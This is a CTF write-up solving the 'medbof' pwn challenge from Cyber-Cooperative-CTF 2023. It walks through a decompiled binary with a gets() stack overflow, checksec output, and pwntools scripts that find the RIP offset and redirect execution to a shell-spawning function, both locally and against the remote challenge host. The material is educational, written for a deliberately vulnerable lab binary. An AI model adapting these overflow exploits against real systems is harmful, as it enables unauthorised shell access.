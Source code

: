 ```yaml
---
layout: writeup
category: Cyber-Cooperative-CTF-2023
chall_description: N/A
points: 200
solves: 155
tags: pwn buffer-overflow ret2win
date: 2023-12-19
comments: false
---
```


a little harder this time  
`nc 0.cloud.chals.io 27380`  

[medbof](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Cyber-Cooperative-CTF-2023/pwn/medbof)  

---

We're given an ELF binary, `medbof`. I decompiled with [Dogbolt](https://dogbolt.org/). Here is the relevant Hex-Rays decompilation:  

```c
//----- (0000000000400646) ----------------------------------------------------
int do_system()
{
  return system("/bin/sh");
}

//----- (0000000000400657) ----------------------------------------------------
__int64 do_input()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("a little harder this time");
  fflush(_bss_start);
  return gets(v1);
}
// 400520: using guessed type __int64 __fastcall gets(_QWORD);
// 400657: using guessed type char var_20[32];

//----- (0000000000400691) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  do_input();
  return 0;
}
```

Seems like a simple ret2win. We just need to find the address of the `do_system` function and overwrite the RIP (return address) with that address.  

First, let's run `checksec --file=medbof`:  

```
[*] '/home/nightxade/Documents/ctfsbackup/Cyber Cooperative CTF 2023/exploit/medbof/medbof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Very few protections enabled.  

`file medbof` returned this:  

```
medbof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b75cdcc9e3da83a9bbdcea25765f38519ce2acc, not stripped
```

The file isn't stripped, i.e. it still has its ELF symbols (this will allow us to get the address of `do_system`).  

Now that we've done the necessary recon, it's time to write an exploit. First, I used pwntools' cyclic function to find the offset of the RIP from our input:  

```py
from pwn import *

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

p.sendline(cyclic(50))
p.wait()
core = p.corefile
stack = core.rsp
info("rsp = %#x", stack)
pattern = core.read(stack, 4)
rip_offset = cyclic_find(pattern)
info(f'rip offset is {rip_offset}')
```

Basically, what the code above does, is, it runs until the RIP is the next value to be popped off the stack (i.e. when the `do_input` function is about to return), reads that value of the RIP, which should have been overwritten by the cyclic, and finds that value in the cyclic. From this, it is able to determine the offset of the RIP from the input.  

Once we have the offset of the RIP, pwning this program is simple. We just need a buffer of 40 bytes and then the address of the win function. Here was my local exploit implementation:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

elf = ELF('./medbof')
addr_win = elf.symbols['do_system']
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

And here was my corresponding remote solve:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = remote('0.cloud.chals.io', 27380)
print(p.recvuntil(b'time').decode('ascii'))

addr_win = 4195910 # from localsolve.py
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

Opening the remote connection in interactive mode provides us the shell. `ls` --> `cat flag.txt` gets us the flag!  

    flag{getting_better_at_hacking_binaries_i_see...}